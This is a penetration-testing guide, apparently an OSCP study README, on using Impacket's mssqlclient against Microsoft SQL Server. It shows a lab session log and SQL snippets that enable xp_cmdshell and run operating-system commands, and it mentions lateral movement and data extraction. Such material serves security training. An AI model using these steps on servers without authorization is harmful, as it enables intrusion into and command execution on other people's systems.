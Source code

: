 #  Penetration Testing with Impacket MSSQLClient "OSCP Guide"

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [Security Considerations](#security-considerations)
8. [Resources](#resources)
9. [Contributing](#contributing)
10. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, you need to have Python and pip installed. Follow these steps to install Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

## Connecting to a SQL Server

Use `mssqlclient` to connect to a SQL Server instance:

```bash
impacket-mssqlclient <username>:<password>@<hostname> -windows-auth
```

Example:

```bash
impacket-mssqlclient Administrator:Lab123@192.168.212.18 -windows-auth
```

```plaintext
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)> dir
ERROR: Line 1: Could not find stored procedure 'dir'.
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Administrator  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Administrator  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE xp_cmdshell 'whoami';
output                        
---------------------------   
nt service\mssql$sqlexpress   

NULL                          
SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```

## Enabling Advanced Options

Before you can use certain advanced features like `xp_cmdshell`, you need to enable advanced options on the SQL Server.

### Step-by-Step Guide

1. **Enable advanced options**:
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    ```

2. **Enable xp_cmdshell**:
    ```sql
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

## Executing Commands

Once `xp_cmdshell` is enabled, you can execute system commands directly from the SQL Server.

### Example Commands

- **Check the current user**:
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```

- **List directory contents**:
    ```sql
    EXEC xp_cmdshell 'dir';
    ```

- **Create a new directory**:
    ```sql
    EXEC xp_cmdshell 'mkdir C:\path\to\new_directory';
    ```

## Advanced Usage

Here are some advanced scenarios and techniques for using `mssqlclient`:

- **Uploading and Executing Scripts**:
    You can upload and execute scripts or binaries using `xp_cmdshell`.

- **Pivoting and Lateral Movement**:
    Use `mssqlclient` in combination with other tools to pivot and move laterally within the network.

- **Extracting Data**:
    Use SQL queries to extract sensitive data from the database.

## Security Considerations

Using tools like `mssqlclient` comes with significant security risks. Here are some considerations:

- Ensure you have proper authorization before performing penetration tests.
- Be aware of the potential impact of your actions on the target systems.
- Follow responsible disclosure practices if you discover vulnerabilities.

## Resources

- [Impacket GitHub Repository](https://github.com/fortra/impacket)
- [SQL Server Documentation](https://docs.microsoft.com/en-us/sql/sql-server/)

## Contributing

We welcome contributions to enhance this guide. Please submit a pull request or open an issue to discuss your ideas.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
```

You can copy and paste this markdown content directly into your `README.md` file on GitHub.
